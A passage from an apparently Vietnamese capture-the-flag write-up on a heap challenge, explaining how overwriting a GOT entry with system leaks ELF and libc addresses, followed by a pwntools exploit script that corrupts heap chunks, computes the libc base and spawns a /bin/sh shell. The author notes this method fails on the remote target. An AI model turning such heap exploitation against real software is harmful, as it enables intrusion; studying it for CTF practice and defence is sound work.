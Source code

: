 ```python
```
### Cách 2: Leak ELF, Libc...

Cách này gần giống như cách trên, [để ý rằng hàm puts gọi strlen để tính độ dài cho chuỗi in ra](https://elixir.bootlin.com/glibc/glibc-2.31/source/libio/ioputs.c#L32), nếu ta ghi đè got đó thành hàm system ,
khi gọi `puts("1. Create \n2. Delete \n3. Add value \nAction: ")`
-> `system("1. Create \n2. Delete \n3. Add value \nAction: ")` ->
system trả về số âm làm cho len rất lớn, để ý chuỗi đang ở trên .data của ELF -> leak được ELF.

Rất tiếc là cách này không chạy được trên remote :(.

Payload:
```python
    for i in range(35):
        c()
    d(0)
    a(0, p64(0x10)+b'A')
    d(0)
    a(0, b'\x10')
    c()
    c()
    a(36, p64(0)+p64(0x21))
    d(10)
    d(1)
    a(36, p64(0)+p64(0x400))
    d(1)
    a(36,p64(0)+p64(0)+p64(0xfffffffffffff4b0+8))
    pause()
    c()
    c()
    a(38,p64(0)+p64(0)+p64(0xffffffffffec9bc0))
    pause()
    io.recvuntil(b"Can you math your way through?"+b"\x00"*6)
    io.recv(0x00000dd0)
    io.recv(1)
    libc.address=u64(io.recv(8))-libc.sym.free
    log.info(f"libc @ {hex(libc.address)}")
    for i in range(4):
        io.recv(0xfff)
    sleep(1)
    io.sendline(b"3\x00")
    sleep(1)
    io.sendline(b"38"+b"\x00"*28)
    sleep(1)
    io.sendline(p64(0)+p64(0)+p64(1270848))
    sleep(1)
    d(12)
    d(11)
    d(4)
    a(4,p64(0xfffffffffffffec0)+p64(0)*2)
    a(1,p64(0x2db0)+p64(0)+p64(0))
    c()
    c()
    c()
    a(0x29,p64(libc.sym.system)+p64(0)*2)
    a(9,b"/bin/sh\x00"+p64(0)+p64(0))
    d(9)
    io.interactive()
pwn()
```
### Cách 3: Ghi đè stdout
